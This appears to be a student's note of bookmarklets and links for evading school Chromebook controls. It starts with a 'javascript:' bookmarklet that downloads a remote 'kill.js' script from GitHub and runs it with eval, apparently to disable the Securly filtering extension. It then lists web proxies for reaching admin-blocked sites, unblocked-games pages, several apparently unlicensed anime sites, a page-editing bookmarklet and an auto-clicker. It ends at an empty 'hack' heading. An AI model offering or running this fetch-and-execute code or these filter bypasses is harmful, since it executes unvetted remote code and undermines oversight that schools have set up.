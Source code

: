 javascript:fetch("https://raw.githubusercontent.com/zek-c/Securly-Kill-V111/main/kill.js").then(r => r.text()).then(r => eval(r))

---------------------------------------------------------------------

Roblox for Chromebook (must unblock Chromebook first) 
https://now.gg/play/roblox-corporation/5349/roblox

proxy sites for searching admin-blocked sites: https://www.croxyproxy.com/

YouTube proxy: https://108.181.34.157/?__cpo=aHR0cHM6Ly93d3cueW91dHViZS5jb20

HTML games unblocked: https://irunblocked.com/howtobookmarklet.html

Rahammerhead links may not work anymore: https://sites.google.com/view/thj-unblxckers/rammerhead-browser

anime sites 
https://aniwatch.to/
https://9animetv.to/
https://aniwave.to/home
https://animetake.tv/
-----------------------------------

edit page:javascript: document.body.contentEditable = 'true';document.designMode = 'on';void 0
---
auto clicker
javascript:(function() { var clickerIsMouseDown = false; var clickerCurrentMouseTarget = document.body; document.body.addEventListener('mouseup', () => { clickerIsMouseDown = false; }); document.body.addEventListener('mousedown', () => { clickerIsMouseDown = true; }); document.body.addEventListener('mousemove', (e) => { clickerCurrentMouseTarget = e.target }); setInterval(() => { if (clickerIsMouseDown) clickerCurrentMouseTarget.click(); }, 0); })();
------------

yohohoho hack :
